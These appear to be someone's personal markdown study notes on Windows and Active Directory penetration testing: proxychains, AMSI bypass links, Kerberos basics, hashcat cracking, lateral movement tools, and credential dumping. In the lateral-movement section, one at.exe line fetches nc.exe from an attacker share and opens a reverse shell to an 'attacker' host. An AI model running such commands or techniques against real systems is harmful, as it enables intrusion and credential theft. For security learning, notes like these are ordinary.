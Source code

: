 using socks5

```
nano /etc/proxychains.conf 

sock5 ip port user password

proxychains firefox

```

# AMSI bypass

https://www.hackingarticles.in/a-detailed-guide-on-amsi-bypass/

 Antimalware Scan Interface (AMSI) standard that allows a developer to integrate malware defense in his application. AMSI allows an application to interact with any anti-virus installed on the system and prevent dynamic, script-based malwares from executing

amsi byoass with a single command:
https://news.sophos.com/en-us/2021/06/02/amsi-bypasses-remain-tricks-of-the-malware-trade/


# kerberoasting 

cracking hashes offline using hashcat 

b4b9b02e6f09a9bd760f388b67351e2b

hashcat hashes.txt -m 1000 -a3 ?1?1?1
=======
# looking at ad enumeration

even without an ad user cann connect to a workgroup
https://book.hacktricks.xyz/windows-hardening/active-directory-methodology

## kerberoast attacks

Kerberos
https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberos-authentication

Firstly, Kerberos is an authentication protocol, not authorization. In other words, it allows to identify each user, who provides a secret password, however, it does not validates to which resources or services can this user access.

Agents
Several agents work together to provide authentication in Kerberos. These are the following:
Client or user who wants to access to the service.
AP (Application Server) which offers the service required by the user.
KDC (Key Distribution Center), the main service of Kerberos, responsible of issuing the tickets, installed on the DC (Domain Controller). It is supported by the AS (Authentication Service), which issues the TGTs.

Encryption keys
There are several structures handled by Kerberos, as tickets. Many of those structures are encrypted or signed in order to prevent being tampered by third parties. These keys are the following:
KDC or krbtgt key which is derivate from krbtgt account NTLM hash.
User key which is derivate from user NTLM hash.
Service key which is derivate from the NTLM hash of service owner, which can be a user or computer account.
Session key which is negotiated between the user and KDC.
Service session key to be use between user and service.

Tickets
The main structures handled by Kerberos are the tickets. These tickets are delivered to the users in order to be used by them to perform several actions in the Kerberos realm. There are 2 types:
The TGS (Ticket Granting Service) is the ticket which user can use to authenticate against a service. It is encrypted with the service key.
The TGT (Ticket Granting Ticket) is the ticket presented to the KDC to request for TGSs. It is encrypted with the KDC key.


# lateral movement

https://hackmag.com/security/lateral-guide/

approach

sieze control over the domain controllers
reach to isolated critical network segments
search for critical information stored in a certain PC

impacket tools
MSRPC - smb via named pipes
psexec.exe - no av risk, legitimate
psexec.py - from impacket or services.py for manual entering of commands
winexe
smbexec.py - just for msrp.py
atexec.py/ at.exe this helps in remote schedule tasks
`at.exe \\target 13:37 "cmd /c copy \\attacker\a\nc.exe && nc -e \windows\system32\cmd.exe attacker 8888"`
reg.exe - writing to registry remotely
dcomexec.py - wmiexec
wmi
sc.exe
winrm - evilwinrm
winrs.exe and powershell
xfreerdp
GP

embedding malicious files into the shared folder of the system.

### Pass the hash

without cracking the password we can get:

![](2022-08-23-06-34-31.png)

kali linux has many pth - pass the hash tools


# dumping credentials with mimikatz

https://www.whiteoaksecurity.com/blog/attacks-defenses-dumping-lsass-no-mimikatz/

windows defender credential Guard prevents access to LSASS



![](2022-08-23-06-25-06.png)



# proxychain
open `/etc/proxychains.conf`
add `socks5 ip port username password` to the end
run with `proxychains ping whatever`

or using foxy proxy to set up a proxy

# C# execution of commands

```C#
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;

namespace console_csharp
{
    class Program
    {
        static void Main(string[] args)
        {
            System.Diagnostics.Process process = new System.Diagnostics.Process();
            System.Diagnostics.ProcessStartInfo startInfo = new System.Diagnostics.ProcessStartInfo();
            startInfo.WindowStyle = System.Diagnostics.ProcessWindowStyle.Hidden;
            startInfo.FileName = "cmd.exe";
            startInfo.Arguments = "";
            process.StartInfo = startInfo;
            process.Start();
        }
    }
}
```

# elevating current cmd to administrator

This is wha comes by default in command line
```
PS C:\Users\HP> C:\Windows\System32\runas.exe /noprofile /user:Administrator cmd
Enter the password for Administrator:
Attempting to start cmd as user "WINWORK\Administrator" ...
RUNAS ERROR: Unable to run - cmd
1327: Account restrictions are preventing this user from signing in. For example: blank passwords aren't allowed, sign-in times are limited, or a policy restriction has been enforced.
```
The local group policy can be modified by LGPO suite - to be tried.




